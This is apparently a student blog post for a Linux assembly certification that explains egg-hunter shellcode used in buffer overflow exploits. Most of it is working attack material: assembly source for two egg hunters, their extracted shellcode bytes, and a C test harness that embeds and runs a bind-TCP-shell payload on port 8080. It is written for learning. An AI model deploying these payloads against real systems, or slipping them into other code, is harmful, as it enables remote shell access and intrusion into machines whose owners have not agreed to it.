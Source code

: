 # Assignment 3

* Study about Egg Hunters shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

## What is a Egg Hunter?

In classic stack based buffer overflow, the buffer size is big enough to hold the shellcode, but what happen if this is not the case? 
Let's assume that our shellcode is 100 bytes and we have only 35 bytes available, where should be stored the left 65 bytes?

Well, Egg hunting technique was introduced to overcome this condition!

An Egg Hunter is a tiny payload that searches in the virtual memory of the process for an *egg*, which is nothing more than a tag that denotes the start of the shellcode to execute. 
In other words, when using an Egg Hunter we are talking about a two stage shellcode:

1. A tiny payload - injected exploiting a buffer overflow - that looks for an egg and once found it pass the execution there;
2. The real payload to execute - passed to the program using an input parameter - whose start is denoted by the egg searched by the previous payload.

The requirements for an Egg Hunter are **being small**, but **robust** enough to avoid any crash in the program exploited due to memory access violations (unallocated memory or locations in memory which our user doesn’t have permission to read). The attacker, depending on the scenario, is required to find the right balance betweem them.

Well, next question is, how do we safely inspect the virtual address space of a process? Firstly, knowing the target operating system is crucial. Being this assignment focused on Linux, let's inspect the several ways already studied in literature for that operating system. The document written by *skape*, which can be found at <http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf>, is illuminating and explains in details several approaches. Its read is strongly suggested.

## Execution

I decided to dive into the implementation of the Egg Hunger using the **sigaction** syscall. The following is the code implemented.

```
; Author :  Alessio Parzian
; Filename: egghunter_sigaction.asm

; compile with:
; 	nasm -f elf32 egghunter_sigaction.asm
;	ld -o egghunter_sigaction egghunter_sigaction.o
; extract shellcode with:
; 	objdump -d egghunter_sigaction | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'

global _start

section .text

_start:

align_page:
    or  cx, 0xfff       ; setting lower 16 bits to 4095

next_address:
    inc ecx             ; moving it to 4096 (usual page size for x86 systems), this allow to avoid null chars 

    ; ==================
    ; sigaction syscall
    ; ==================
    ; > man 2 sigaction
    ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    ; ------------------
    xor eax, eax        ; zeroing register
    mov al, 0x43        ; syscall number sigaction 
    int 0x80            ; interrupt to ask for syscall execution
    ; ------------------
    
    cmp al, 0xf2        ; eax will contain 0xf2 (EFAULT) in case of invalid memory
    jz align_page       ; if ZF flag is set it means an invalid page address was found, thus a page alignment is required
    
    ; ==================
    ; scasd call
    ; ==================
    ; > https://en.wikipedia.org/wiki/X86_instruction_listings
    ; ------------------
    mov eax, 0xFCFCFCFC ; moving value of the egg as method parameter 
    mov edi, ecx        ; moving address of valid memory to scan 
    scasd               ; compares ES:[(E)DI] with EAX and increments or decrements (E)DI, depending on DF; can be prefixed with REP
    ; ------------------
    
    jnz next_address 	; if it doesn't match increase memory by one byte and try again
    
    ; ==================
    ; scasd call
    ; ==================
    ; > https://en.wikipedia.org/wiki/X86_instruction_listings
    ; ------------------
    scasd               ; scan again to check for the second part of the egg, this is required to avoid to find the egg in the egghunter
                        ; and believing to have found the one in the shellcode
                        ; parameters in registers are already set
    ; ------------------
    
    jnz next_address    ; if it dosent match increase memory by one byte and try again
    
    jmp edi             ; if this opcode is executed it means the was found and it the moment to pass the execution to the shellcode
```

The resulting shellcode is:

```
\x66\x81\xc9\xff\x0f\x41\x31\xc0\xb0\x43\xcd\x80\x3c\xf2\x74\xf0\xb8\xfc\xfc\xfc\xfc\x89\xcf\xaf\x75\xeb\xaf\x75\xe8\xff\xe7
```

It is 31 bytes long and contains no null bytes! However, what about if there would be the need of having an even smaller Egg Hunter? Probably, the robustness of the implemention should be sacrificed, but it might become a need in some real world exploitation scenarios. Let's have a look how we could decrease its size.

```
; Author :  Alessio Parzian
; Filename: egghunter_minimal.asm

; compile with:
; 	nasm -f elf32 egghunter_minimal.asm
;	ld -o egghunter_minimal egghunter_minimal.o
; extract shellcode with:
; 	objdump -d egghunter_minimal | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'

; This is the smallest payload that I studied following <https://www.exploit-db.com/exploits/44334>
; However, this egghunter assumes that the egg is located in lower addresses than itself (it starts from it)
; if that wouldn't be the case probably the hunter will make the process crash trying to access invalid memory areas

global _start

section .text

_start:
	inc eax
	; the egg MUST BE EXECUTABLE 
	; 00000000  4F	dec di
	; 00000001  90	nop
	; 00000002  47  inc di
	; 00000003  90  nop
	cmp DWORD [eax], 0x4f904790
	jne	_start
	jmp eax
```

The resulting shellcode is:
```
\x40\x81\x38\x90\x47\x90\x4f\x75\xf7\xff\xe0
```

It is 11 bytes long and contains no null bytes! Well, let's implement a PoC to test the above reported egg hunters.

```c
/*
// Author: Alessio Parzian
// Filename: test_egghunter.c
//
// Test your egghunter with a shellcode. Replace shellcode variable value with your own shell, compile and execute.
// Compile with:
//	gcc $file_name -fno-stack-protector -z execstack -o $out_name
*/

#include <stdio.h>
#include <string.h>

// Change eggs accordingly with your preference and the type of hunter chosen
#define EXECEGG0 "\xfc\xfc\xfc\xfc" // NO NEED OF EXECUTION
#define EXECEEG1 "\x90\x47\x90\x4f" // NEED OF EXECUTION (order reversed in egg_hunter1)

// Change shellcodes based on your needs!
 
// ====================
// SIGACTION EGGHUNTER
// ====================

// Size: 31 bytes
unsigned char egg_hunter0[] = \
"\x66\x81\xc9\xff\x0f\x41\x31\xc0\xb0\x43\xcd\x80\x3c\xf2\x74\xf0\xb8"
EXECEGG0
"\x89\xcf\xaf\x75\xeb\xaf\x75\xe8\xff\xe7";

// Bind TCP Shell on port 8080
// Size 124 bytes
unsigned char shellcode0[] = \
EXECEGG0
EXECEGG0
// Change shellcode here if you want other payloads
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01"
"\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x66\xb8\x69\x01\x89\xf3\x52\x66"
"\x68\x1f\x90\x66\x6a\x02\x89\xe1\x31\xd2\x83\xc2\x10\xcd\x80\x66"
"\xb8\x6b\x01\x89\xf3\x31\xc9\xcd\x80\x66\xb8\x6c\x01\x89\xf3\x31"
"\xd2\x52\x52\x89\xe1\x6a\x02\x89\xe2\x31\xf6\xcd\x80\x89\xc3\x31"
"\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\x50"
"\xb0\x0b\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xff"
"\x57\x89\xe2\x53\x89\xe1\xcd\x80";

// ====================
// SMALLEST EGGHUNTER
// ====================

// Size: 11 bytes
unsigned char egg_hunter1[] = \
"\x40\x81\x38\x90\x47\x90\x4f\x75\xf7\xff\xe0";

// Bind TCP Shell on port 8080
// Size: 128 bytes
unsigned char shellcode1[] = \
EXECEEG1
// Change shellcode here if you want other payloads
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01"
"\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x66\xb8\x69\x01\x89\xf3\x52\x66"
"\x68\x1f\x90\x66\x6a\x02\x89\xe1\x31\xd2\x83\xc2\x10\xcd\x80\x66"
"\xb8\x6b\x01\x89\xf3\x31\xc9\xcd\x80\x66\xb8\x6c\x01\x89\xf3\x31"
"\xd2\x52\x52\x89\xe1\x6a\x02\x89\xe2\x31\xf6\xcd\x80\x89\xc3\x31"
"\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x31\xc0\x50"
"\xb0\x0b\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xff"
"\x57\x89\xe2\x53\x89\xe1\xcd\x80";

void main()
{
    printf("Length of Egg Hunter Shellcode:  %d\n", strlen(egg_hunter1));
    printf("Length of the Actual Shellcode:  %d\n", strlen(shellcode1));
    int (*ret)() = (int(*)())egg_hunter1;
    ret();
}
```

Well, this concludes assignment 3!

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*